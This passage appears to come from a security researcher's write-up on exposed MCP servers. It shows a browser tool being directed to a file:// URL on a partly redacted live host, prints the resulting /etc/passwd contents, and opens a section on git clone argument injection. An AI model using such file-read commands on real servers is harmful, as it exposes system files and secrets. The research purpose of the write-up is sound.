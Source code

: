 ```hljs shell
-> Tools:
   1. Close the page
      browser_close '{}'
...
   1. Press a key on the keyboard
      browser_press_key '{"key": ""}'
   2. Navigate to a URL
      browser_navigate '{"url": ""}'
...
```

Pretty powerful functionality, but not a straightforward way to RCE in sight. Still, using `browser_navigate` we can navigate it to any URL we like, and even get the response:

````hljs shell
$ mcpc http://35.██.███.███:8080 browser_navigate '{"url": "https://example.com"}'
- Ran code:
```js
// Navigate to https://example.com
await page.goto('https://example.com');
```

- Page URL: https://example.com/
- Page Title: Example Domain
- Page Snapshot
```yaml
- heading "Example Domain" [level=1] [ref=s1e4]
- paragraph [ref=s1e5]: This domain is for use in illustrative examples in
    documents. You may use this domain in literature without prior coordination
    or asking for permission.
- paragraph [ref=s1e6]:
    - link "More information..." [ref=s1e7]:
        - /url: https://www.iana.org/domains/example
```
````

This got me thinking, would it also follow the `file://` protocol? Turns out it sure does! (top 10 Jorian genius moments (Jorian says he wouldn't classify it as top 10 but I'm still keeping it))

````hljs shell
$ mcpc http://35.██.███.███:8080 browser_navigate '{"url": "file:///etc/passwd"}'
Navigated to file:///etc/passwd

- Page URL: file:///etc/passwd
- Page Title:
- Page Snapshot
```yaml
- text: root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
    node:x:1000:1000::/home/node:/bin/bash systemd-network:x:998:998:systemd
```
````

With this we can leak any file on the system, trying to get source code, secrets, etc., and potentially exploit more with the things we find.

#### Git clone argument injection

This next one was certainly the most technically interesting exploit:

```hljs shell
$ mcpc http://174.███.██.██
=== http://174.███.██.██ ===
Name: 'MCP'
-> Tools:
   1. Clone a GitHub repository
```